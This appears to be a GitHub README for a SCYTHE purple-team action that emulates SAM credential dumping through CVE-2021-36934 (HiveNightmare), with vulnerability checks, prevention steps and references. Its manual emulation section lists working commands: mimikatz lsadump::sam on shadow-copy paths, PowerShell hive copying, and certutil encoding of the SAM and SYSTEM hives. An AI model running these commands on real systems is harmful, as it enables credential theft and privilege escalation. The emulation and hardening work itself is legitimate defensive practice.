 # T1003.002 - OS Credential Dumping: Security Account Manager

This SCYTHE Compound Action checks the Windows system for CVE-2021-36934, an elevation of privilege vulnerability that allows any user to read and copy the Security Accounts Manager (SAM) database, and copies the SAM and SYSTEM hive for offline and online (using mimikatz) credential dumping.  For more about OS Credential Dumping: https://attack.mitre.org/techniques/T1003/002/

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack Emulation with SCYTHE
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy# to the backup available on the disk. You can identify that by using the ```vssadmin list shadows``` command.

## Manual Attack Emulation
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```
- ```powershell foreach($i in @("SYSTEM","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\$i", "$i")}```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM SYSTEM.encoded```
- ```certutil -decode SYSTEM.encoded SYSTEM.hive```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SAM SAM.encoded```
- ```certutil -decode SAM.encoded SAM.hive```
- ```powershell.exe -c "[Console]::OpenStandardInput().CopyTo([Console]::OpenStandardOutput())" <"\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\SAM"> sam_export.txt````

## Prevention
Restrict access to %windir%\system32\config and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\*.* /inheritance:e```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```
- Note: you must restrict access and delete shadow copies to prevent exploitation of this vulnerability

## References
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://attack.mitre.org/techniques/T1003/002/
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare